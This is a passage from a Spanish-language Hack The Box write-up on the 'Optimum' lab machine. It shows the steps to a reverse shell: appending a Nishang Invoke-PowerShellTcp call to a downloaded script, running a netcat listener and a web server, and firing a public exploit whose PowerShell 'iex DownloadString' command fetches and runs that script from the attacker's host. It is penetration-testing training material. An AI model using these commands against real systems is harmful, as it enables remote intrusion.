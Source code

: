 en nuestra maquina descargaremos Invoke-PowerShellTcp.ps1 y agregaremos a la ultima linea el siguiente comando para obtener una reverse shell

```bash
Optimum # ❯ wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
--2022-02-16 18:42:57--  https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.108.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 4339 (4,2K) [text/plain]
Grabando a: «Invoke-PowerShellTcp.ps1»

Invoke-PowerShellTcp.ps1    100%[===========================================>]   4,24K  --.-KB/s    en 0,002s  

2022-02-16 18:42:57 (1,74 MB/s) - «Invoke-PowerShellTcp.ps1» guardado [4339/4339]

Optimum # ❯ echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.70 -Port 443" >> Invoke-PowerShellTcp.ps1
```

dejamos el puerto 443 en escucha con netcat

```bash
Optimum # ❯ rlwrap nc -nlvp 443        
listening on [any] 443 ...
```

tambien creamos un servidor web de python

```bash
Optimum # ❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

y ejecutamos el exploit que encontramos de la siguiente manera

```bash
Optimum # ❯ python3 49125.py 10.129.142.187 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.14.70/Invoke-PowerShellTcp.ps1')"
```

obtenemos una reverse shell exitosa

![Untitled](/assets/images/2022-02-13-writeup-maquina-htb-optimum/Untitled%204.png)
